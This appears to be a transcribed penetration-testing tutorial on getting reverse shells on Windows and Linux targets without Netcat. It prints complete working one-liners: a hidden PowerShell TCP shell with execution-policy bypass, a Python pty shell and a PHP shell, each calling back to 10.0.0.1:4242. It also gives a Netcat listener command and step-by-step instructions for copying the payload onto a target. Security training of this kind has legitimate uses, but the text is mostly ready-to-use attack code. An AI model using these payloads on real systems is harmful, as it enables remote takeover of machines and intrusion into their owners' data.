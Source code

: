 In terms of Windows, you're pretty much limited to only two options. You can either utilize PowerShell code.

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

For example, if this PowerShell code is executed on the target, it will connect back to our Netcat listener. And there isn't a reliance on Netcat, and the target system does not have to have Netcat installed. And PowerShell is very powerful because every Windows system comes with PowerShell and the ability to execute PowerShell code.

That's one of the techniques.

If the target is a Linux target or even a Windows target and has Python installed, then you also have Python code that will connect to a Netcat listener.

```
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

It's not limited to just operating systems. If you're targeting or exploiting a web application, you also have PHP reverse shells.

```
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```

This code can be executed with PhP. It's going to connect to the attacker's system, and then executes `/bin/bash` or `/bin/sh`, and you obtain a reverse shell session.

[Reverse Shell Generator](https://www.revshells.com/)

Number one, you need to specify the IP address of the attacker system. So your Kali Linux or pentesting distribution IP address. And then, the port on which the Netcat listener is running.

In this case, what we'll be trying to do is obtain a reverse shell on a Windows system that doesn't have Netcat installed, and we are only going to utilize the PowerShell code. 

Reverse->OS Windows->PowerShell #2

All you need to do is just copy it. And then, transfer it over to the target system. This can be part of a larger exploit or you can copy it or paste all of this into a PowerShell file or a PowerShell script, for that matter, and get it executed on the target.

You can obtain a reverse shell without Netcat on the target site.

For receiving the reverse shell, we're going to set up the Netcat listener here.

```
nc -nvlp 1234
```
